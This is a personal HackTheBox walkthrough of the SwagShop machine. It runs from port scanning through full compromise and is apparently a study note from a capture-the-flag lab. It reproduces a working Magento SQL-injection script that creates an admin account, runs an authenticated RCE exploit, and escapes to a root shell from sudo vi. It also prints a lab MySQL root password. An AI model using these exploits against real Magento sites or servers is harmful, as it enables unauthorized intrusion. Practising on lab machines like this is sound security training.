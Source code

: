 ```yaml
---
tags:
  -  htb
revisit: true
---
```

# HackTheBox: [SwagShop](https://app.hackthebox.com/machines/SwagShop)

> [!tip]- Spoiler Summary
> This machine is hosting a web commerce site with an SQLi vulnerability that allows an attacker to add an admin-level user, which enables an RCE exploit. Privilege escalation is trivial with `vi`.

## Services

### TCP

First, a TCP [port scan with nmap](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Wed Aug  7 13:59:01 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN tcp_full t
Nmap scan report for t (10.10.10.140)
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.140], RedirectLocation[http://swagshop.htb/]
http://swagshop.htb/ [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

## RCE

Here is how I achieved remote code execution on the target system.

Here's the [exploit for the SQLi to get an admin user](https://www.exploit-db.com/exploits/37977) on the web app:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

```console
$ python2 ./x.py http://swagshop.htb
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

There's an [authenticated RCE available for Magento available from exploit-db](https://www.exploit-db.com/exploits/37811), but I had some problems getting the `mechanize` module working correctly with Python2.7. There's an updated version written for Python3 available at <https://github.com/Hackhoven/Magento-RCE.git>.

```console
$ python3 ./magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'id'
Form name: None
Control name: form_key
Control name: login[username]
Control name: dummy
Control name: login[password]
Control name: None
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The user flag is readable in the home directory of user `haris`:

```git
www-data@swagshop:/var/www/html$ ls -la /home/haris/user.txt
-rw-r--r-- 1 haris haris 33 Aug  9 10:59 /home/haris/user.txt
```

## PE

Here's how I was able to escalate privileges for full control of the system.

```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Escaping to a shell from `vi` is trivial with: `:!/bin/sh`

## Post

Life after `root`.

```console
# crontab -l
...
# m h  dom mon dow   command
@reboot /root/.script/update.sh
# cat /root/.script/update.sh
#!/bin/bash
sleep 10
new_date=`date +'%F %T'`
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -Bse "use swagshop; update sales_flat_order set created_at = '$new_date' where state = 'processing';"
```

## Open Questions

I lost a lot of time trying to get the older `python2` exploit working. I was able to install the correct module (`mechanize`) using `python2 -m pip install …` but it still didn't work, for reasons I never got to the bottom of.
